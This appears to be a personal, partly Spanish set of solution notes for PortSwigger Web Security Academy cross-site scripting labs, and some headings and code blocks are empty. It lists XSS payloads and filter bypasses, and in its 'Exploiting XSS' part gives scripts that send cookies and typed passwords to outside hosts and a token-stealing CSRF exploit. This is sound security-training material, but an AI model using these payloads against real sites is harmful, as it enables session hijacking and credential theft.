

# Reflected XSS 

## Lab: Reflected XSS into HTML context with nothing encoded



# Stored XSS
## Lab: Stored XSS into HTML context with nothing encoded


## Lab:_Reflected_XSS_into_HTML_context_with_nothing_encoded


# DOM XSS
## Lab: DOM XSS in `document.write` sink using source `location.search`

```
https://0a0e00450375d04981e339c300850060.web-security-academy.net/?search='">'<script>alert(1)</script>
```

## Lab: DOM XSS in `document.write` sink using source `location.search` inside a select element

```
https://0a1000dd04cffd6e809cd5cd000900ed.web-security-academy.net/product?productId=1&storeId=%27%3C/option%3E%3C/select%3E%3Cscript%3Ealert(1)%3C/script%3E
```
## Lab: DOM XSS in `innerHTML` sink using source `location.search`

```
 
```

## Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

```
https://0a0000140344c599817acfdf008300b6.web-security-academy.net/feedback?returnPath=javascript:alert(1)
```

## Lab: DOM XSS in jQuery selector sink using a hashchange event

```
<iframe src="https://0aa000da041296928013032c007b0006.web-security-academy.net/#" onload="this.src+=''"></iframe>
```

## Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

```
{{ constructor.constructor('alert(1)')() }}
```

## Lab: Reflected DOM XSS

```
\"-alert(1)}//
```

## Lab: Stored DOM XSS 

```
<>
```

# XSS Context 

## Lab: Reflected XSS into HTML context with nothing encoded


## Lab: Stored XSS into HTML context with nothing encoded


## Lab: Reflected XSS into HTML context with most tags and attributes blocked

```
<iframe src="https://0ab0001803a47f23807e8f93002900d7.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%281%29%3E" onload=this.style.width='10px'>
```

## Lab: Reflected XSS into HTML context with all tags blocked except custom ones

```
<script>
window.location = "https://0a6600170476a19f8083620e000400ff.web-security-academy.net/?search=<xss autofocus tabindex=1 onfocusin=alert(document.cookie)></xss>"
</script>
```

## Lab: Reflected XSS with some SVG markup allowed

```
<svg><animatetransform onbegin=alert(1)</svg>
```

## Lab: Reflected XSS into attribute with angle brackets HTML-encoded

```
" autofocus onfocus=alert(1) x="
```

## Lab: Stored XSS into anchor `href` attribute with double quotes HTML-encoded

En web de los comentarios `javascript:alert(1)`

## Lab: Reflected XSS in canonical link tag

```
?%27accesskey=%27x%27onclick=%27alert(1)%27x=%27
```

## Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped

```
'</script><script>alert(1)</script>
```

## Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

```
';alert(1)//
```

## Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

```
\';alert(1)//
```

## Lab: Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

```
http://foo?&apos;-alert(1)-&apos;
```

## Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

```
${alert(1)}
```
# Exploiting XSS vulnerabilities 

## Lab: Exploiting cross-site scripting to steal cookies

```html
<script>img = new Image(); img.src = "http://192.168.1.44/a.php?"+document.cookie;</script>
```

## Lab: Exploiting cross-site scripting to capture passwords

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://vonw44vh10kltbtogp0s18738uel2dw1l.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

## Lab: Exploiting XSS to bypass CSRF defenses

```
<script> var req = new XMLHttpRequest(); req.onload = handleResponse; req.open('get','/my-account',true); req.send(); function handleResponse() { var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; var changeReq = new XMLHttpRequest(); changeReq.open('post', '/my-account/change-email', true); changeReq.send('csrf='+token+'&email=test@test.com') }; </script>
```

# Dangling markup injection 

Verificando la funcioalidad del cambio de correo, vemos que el correo que ponemos se relfeja en la web. Cuando intentamos inyectar un XSS como nuevo email utilizando `test@example.com">`vemos que si bien logramos inyectar el código este no se interpreta, ya que se escapa bien y la web cuenta con CSP. 

Como siguiente validación vemos que podemos poner el valor del formulario mediante la URL de siguiente manera: `https://0a7200dd03c2487f80280d6c00e20099.web-security-academy.net/my-account?email=foo@example.com`

Verificando el CSP vemos que no se definio la directiva `form-action` significando que podemos enviar un formulario a otra web. 

Ya que también podemos inyectar codigo html lanzamos la siguiente petición: `https://0a7200dd03c2487f80280d6c00e20099.web-security-academy.net/my-account?email=foo@example.com"><button formaction="https://exploit-0afb00c403c3485580aa0ce801e30075.exploit-server.net/exploit">Click me</button>`

Esto hara que nos aparezac un boton con el texto "Click me" y una vez lo clickeamos nos lleva a nuestro sitio malicioso. 

Para ello creamos el siguiente payload y se lo enviamos a la victima: 
```html
<body>
<script>
// Define las URLs del entorno del laboratorio y del servidor de exploits.
const academyFrontend = "https://0a7200dd03c2487f80280d6c00e20099.web-security-academy.net/"; 
const exploitServer = "https://exploit-0afb00c403c3485580aa0ce801e30075.exploit-server.net/exploit";

// Extrae el token CSRF de la URL.
const url = new URL(location);
const csrf = url.searchParams.get('csrf');

// Verifica si se encontró un token CSRF.
if (csrf) {
    // Si el token está presente, crea dinámicamente los elementos de formulario para realizar el ataque.
    const form = document.createElement('form');
    const email = document.createElement('input');
    const token = document.createElement('input');

    // Configura el nombre y valor del token CSRF.l.
    email.name = 'email';
    token.name = 'csrf';
    token.value = csrf;

    // Configura el nuevo email que reemplazará al actua
    email.value = 'hacker@evil-user.net';

    // Configura el formulario, lo añade al documento y lo evía automáticamente.
    form.method = 'post';
    form.action = `${academyFrontend}my-account/change-email`;
    form.append(email);
    form.append(token);
    document.documentElement.append(form);
    form.submit();

} else {
    // Si no hay token, redirige al usuario a una URL manipulada para generar el botón que expone el token mediante GET.
    location = `${academyFrontend}my-account?email=blah@blah%22%3E%3Cbutton+class=button%20formaction=${exploitServer}%20formmethod=get%20type=submit%3EClick%20me%3C/button%3E`;
}
</script>
</body>
```